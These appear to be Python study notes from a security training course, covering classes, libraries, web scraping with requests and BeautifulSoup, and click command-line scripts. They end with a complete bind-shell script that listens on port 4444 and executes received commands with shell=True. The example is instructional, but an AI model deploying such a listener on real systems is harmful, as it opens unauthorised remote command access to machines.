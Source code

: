 # Notes Python
---

# Classy
Magic Methods are functions - or methods as they are also called in many programming languages - which exist by default and have a default implementation in all classes. This is because of the class hierarchy in Python, where all classes inherit from a base class object ("object" is the name of the base class - slightly confusing perhaps). 

Another two Magic Methods worth mentioning are the __enter__ and __exit__ functions, allowing us to create classes that support using the with keyword. he with keyword will enable us to specify the default functionality of a class for build-up and teardown procedures. For example,  is with open('/path/to/file.txt', 'w') as wr, which opens a file for writing. We can then use wr.write('something') to write "something" to the file. At the end of the with-clause, we do not need to close the output streams to the file - the teardown functionality in the open class takes care of that.

---

# Libraries
To view all classes and functions from library we use dir():

```pyhotn
>>> import time
>>> dir(time)
['CLOCK_BOOTTIME', 'CLOCK_MONOTONIC', 'CLOCK_MONOTONIC_RAW', 'CLOCK_PROCESS_CPUTIME_ID', 'CLOCK_REALTIME', 'CLOCK_TAI', 'CLOCK_THREAD_CPUTIME_ID', '_STRUCT_TM_ITEMS', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'altzone', 'asctime', 'clock_getres', 'clock_gettime', 'clock_gettime_ns', 'clock_settime', 'clock_settime_ns', 'ctime', 'daylight', 'get_clock_info', 'gmtime', 'localtime', 'mktime', 'monotonic', 'monotonic_ns', 'perf_counter', 'perf_counter_ns', 'process_time', 'process_time_ns', 'pthread_getcpuclockid', 'sleep', 'strftime', 'strptime', 'struct_time', 'thread_time', 'thread_time_ns', 'time', 'time_ns', 'timezone', 'tzname', 'tzset']
>>> 
```

## The Requests Package

The requests library is an elegant and simple HTTP library for Python. From the documenation:
Requests allows you to send HTTP/1.1 requests extremely easily. There’s no need to manually add query strings to your URLs, or to form-encode your POST data. Keep-alive and HTTP connection pooling are 100% automatic, thanks to urllib3.

## The BeautifulSoup Package

Another handy package is the BeautifulSoup library (rather beautifulsoup4). This library makes working with HTML a lot easier in Python. Before, we learned how to query a website and get output back, which could be the raw HTML. Digging through this HTML can be cumbersome if we have to search through textual output by hand. BeautifulSoup turns the HTML into Python objects that are much easier to work with and allows us to analyze the content better programmatically. 

## Regex

The first step was to find all words in the HTML while ignoring HTML tags. If we use the get_text() function we discussed earlier, we can use the regular expression module re to help us. This module has a findall function which takes some string of regex (shorthand for "reggular expression") and some text as parameters and then returns all occurrences in a list. We will use the regex string \w+, which matches all word characters, that is, a-z, A-Z, 0-9, and _. Here is the updated code:

---

# Further Improvements

Recall what we discussed in the beginning about importing modules and that Python scripts are executed from top to bottom, even when imported. This means that if somebody were to import our script, e.g., reuse some of our functions (it could be ourselves), the code would run as soon as imported. The typical way to avoid this is to put all the code that does something into the "main" block. Let us do that:
The "main" Block

```python
if __name__ == '__main__':
    page_url = 'http://target:port'
    the_words = get_all_words_from(page_url)
    top_words = get_top_words_from(the_words)

    for i in range(10):
        print(top_words[i][0])
```python

The most important thing to know about the conditional statement is what we need to type to have the code inside it run whenever we execute it with the Python binary. Please refer to the brilliant answer at [StackOverflow](https://stackoverflow.com/questions/419163/what-does-if-name-main-do/419185#419185) for an in-depth explanation of what is going on here. The critical takeaway is that the code inside this conditional statement only gets executed when the script is run, not imported.

## Accepting Arguments

```shell
python3 wordextractor.py --url http://foo.bar/baz
```

Let us look at one module to help us achieve this: [click](https://click.palletsprojects.com/en/8.1.x/).
To understand what click does, we need to talk about decorators. However, since this is a bit of a mouthful to jump right into, let us leave it as optional reading at the end of this section. All we need to know about click at this point is a few simple click-specific concepts that are easy to memorize. 


## A Simple Click Script 

```python
import click

@click.command()
@click.option('--count', default=1, help='Number of greetings.')
@click.option('--name', prompt='Your name', help='The person to greet.')
def hello(count, name):
    for i in range(count):
        click.echo('Hello %s!' % name)

if __name__ == '__main__':
    hello()
```

---

# A simple Bind Shell
```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

 
